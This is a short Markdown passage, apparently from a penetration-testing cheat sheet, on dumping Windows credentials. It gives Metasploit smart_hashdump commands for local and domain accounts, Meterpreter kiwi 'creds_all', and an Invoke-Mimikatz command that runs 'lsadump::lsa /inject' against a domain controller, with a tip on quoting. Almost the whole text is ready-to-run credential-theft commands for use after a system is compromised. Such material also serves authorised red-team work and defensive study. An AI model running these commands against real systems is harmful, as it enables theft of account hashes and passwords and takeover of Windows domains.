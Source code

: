 #### Local user accounts (server or workstation)
```
msf > use post/windows/gather/smart_hashdump
msf post(smart_hashdump) > set session 1
msf post(smart_hashdump) > exploit
```

#### Domain user accounts
1. From a server or workstation:
```
meterpreter > load kiwi
meterpreter > creds_all
```

2. From a Domain Controller:
```
msf > use post/windows/gather/smart_hashdump
msf post(smart_hashdump) > set session 1
msf post(smart_hashdump) > exploit
```

### With [PowerSploit](https://github.com/PowerShellMafia/PowerSploit/)'s [Invoke-Mimikatz](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1):
See the Mimikatz part above and apply it within the Command argument of Invoke-Mimikatz.ps1. Example:
```
> Invoke-Mimikatz -Command '"privilege::debug" "lsadump::lsa /inject" exit' -Computer <dc>
```
> Hints: Put the whole command sequence between single quotes and each command between double quotes and don't forget to exit!!
